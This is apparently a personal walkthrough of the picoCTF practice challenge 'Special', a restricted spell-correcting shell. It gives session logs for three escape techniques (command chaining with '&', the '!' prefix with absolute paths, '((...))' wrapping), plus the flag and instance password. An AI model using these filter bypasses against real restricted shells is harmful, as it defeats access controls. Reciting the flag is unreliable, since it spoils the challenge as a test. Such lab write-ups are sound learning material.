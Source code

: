 # picoGym Level 0377: Special
Source: https://play.picoctf.org/practice/challenge/377

## Goal
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)<br>
Start your instance to see connection details.<br>
ssh -p 49230 ctf-player@saturn.picoctf.net<br>
The password is <b>d8819d45</b>

## What I learned
```
shell bypass via command line
```

## Solution
```
https://webshell.picoctf.org/

AsianHacker-picoctf@webshell:~$ ssh -p 49230 ctf-player@saturn.picoctf.net ⌨️
The authenticity of host '[saturn.picoctf.net]:49230 ([13.59.203.175]:49230)' can't be established.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes ⌨️
Warning: Permanently added '[saturn.picoctf.net]:49230' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: ⌨️
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Method 1:
Special$ ls ⌨️
Is 
sh: 1: Is: not found
Special$ clear ⌨️
Clear 
sh: 1: Clear: not found
Special$ clear; ⌨️
Clear 
sh: 1: Clear: not found
Special$ clear & find . ⌨️
Clear & find . 
sh: 1: Clear: not found
.
./blargh
./blargh/flag.txt
./.cache
./.cache/motd.legal-displayed
Special$ clear & cat ./blargh/flag.txt ⌨️
Clear & cat ./blargh/flag.txt 
sh: 1: Clear: not found
picoCTF{5p311ch3ck_15_7h3_w0r57_0c61d335} 🔐

Method 2: ! force run commands
Special$ /bin/clear ⌨️                                  # Only one that works others got filtered
Special$ /bin/ls -la ⌨️  
Absolutely not paths like that, please!
Special$ ! /usr/bin/ls -la ⌨️
! /usr/bin/ls la 
/usr/bin/ls: cannot access 'la': No such file or directory
Special$ ! /usr/bin/ls ⌨️
! /usr/bin/ls 
blargh
Special$ ! /bin/ls ⌨️
! /bin/ls 
blargh
Special$ ! /bin/ls blargh/ ⌨️
! /bin/ls blargh/ 
flag.txt
Special$ ! /bin/cat blargh/flag.txt ⌨️
! /bin/cat blargh/flag.txt 
picoCTF{5p311ch3ck_15_7h3_w0r57_0c61d335} 🔐

Method 3: arithmetic evaluation, Restricted use other 2 method above
Special$ ((clear)) ⌨️
Special$ ((ls)) ⌨️
((ls)) 
blargh
Special$ ((ls)) blargh ⌨️
((ls)) large 
sh: 1: Syntax error: word unexpected
Special$ ((/???/??)) ⌨️             
((/???/??)) 
/bin/ar: invalid option -- '/'
Special$ ((/bin/ls)) ⌨️
((/bin/ls)) 
blargh
Special$ ((/bin/cd)) blargh ⌨️
((/bin/cd)) large 
sh: 1: Syntax error: word unexpected
Special$ ((./*/)) ⌨️
((./*/)) 
sh: 1: ./blargh/: Permission denied
Special$ ((cat)) blargh/flag.txt ⌨️
sh: 1: Syntax error: word unexpected
Special$ ((bin/cat)) blargh/flag.txt ⌨️
((bin/cat)) blargh/flag.txt 
sh: 1: Syntax error: word unexpected
```

## Flag
picoCTF{5p311ch3ck_15_7h3_w0r57_0c61d335}

## Continue
[Continue](./picoGym0378.md)
